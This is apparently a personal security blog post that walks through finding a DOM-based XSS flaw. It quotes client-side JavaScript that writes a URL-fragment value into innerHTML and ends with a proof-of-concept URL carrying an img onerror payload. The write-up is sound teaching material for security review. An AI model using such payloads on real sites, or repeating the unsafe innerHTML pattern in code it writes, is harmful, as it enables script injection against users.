```yaml
---
title: "Finding XSS with source code analysis I"
date: 2022-06-03T19:01:00+07:00
tags: [xss, codeanalysis, owasp10]
description: My way on finding vulnerabilities in new target website, first thing to do are fire up the burp suite (collecting all requests and responses from target).
---
```

My way on finding vulnerabilities in new target website, first thing to do are fire up the burp suite (collecting all requests and responses from target), and click all the functions and buttons on target website. After that I usually analyze the HTML & javascript from the response.

While reviewing the code.. I found a comment like this.. Well that's interesting...

```js
$(window).on('load', function() {

// old code for handling errors, due to be deprecated
```

I was so curious... So I start analyzing the code.  
It was noted that an event listener is waiting for the page to load via `$(window).on('load'`

```js
$(window).on('load', function() {

    // old code for handling errors (deprecated)
    var errorCode = decodeURIComponent(getHashValue("error"));  
    
    var uri = window.location.toString();

    if (uri.indexOf("#") > 0) {
        var clean_uri = uri.substring(o, uri.indexOf("#");
        window.history.replaceState({}, document.title, clean_uri);
    }

    if (errorCode != "null") {
        if (errorCode == '2') {
            // invalid input!
            document.getElementById("errorMsg").innerHTML =  "<div class='alert alert-danger mt-3 d-inline-block' role='alert'> <span class='badge badge-secondary'>Error "+errorCode+"</span> - No match with our records.</div>";
        } else if (errorCode == '1') {
            // invalid ?
            document.getElementById("errorMsg").innerHTML = "<div class='alert alert-danger mt-3 d-inline-block' role='alert'> <span class='badge badge-secondary'>Error "+errorCode+"</span> - Not valid. </div>";
        } else {
            document.getElementById("errorMsg").innerHTML =  "<div class='alert alert-danger mt-3 d-inline-block' role='alert'> Error "+errorCode+" - An unexpected error occured. </div>";
        }
    }

```

As evident above, when the page is loaded the `getHashValue` function is called with an argument `(key)` consisting of a string `("error")` representing the parameter within the URL fragment who's value will be returned and assigned to the `errorCode` variable. The `getHashValue` function can be seen below:

```js
function getHashValue(key) {
    var matches = location.hash.match(new RegExp(key+'=([^&]*)'))
    return matches ? matches[1] : null;
}
```

Because the `errorCode` variable can be injected and controlled via user input in the URL and the fact that the following JavaScript will take the `errorCode` value and inject it into the DOM as HTML:

```js
document.getElementById("errorMsg").innerHTML =  "<div class='alert alert-danger mt-3 d-inline-block' role='alert'> Error "+errorCode+" - An unexpected error occured. </div>";

```

Can result in XSS as evident by clicking the link below which when when visited by a victim will execute attacker controlled JavaScript in the context of the victim user's browser:

```html
https://redacted.com/#error=</div></div><img src=x onerror=alert(0)>
```

Successful execution of malicious JavaScript in the browser can be seen below:

![xss](/images/001.png)
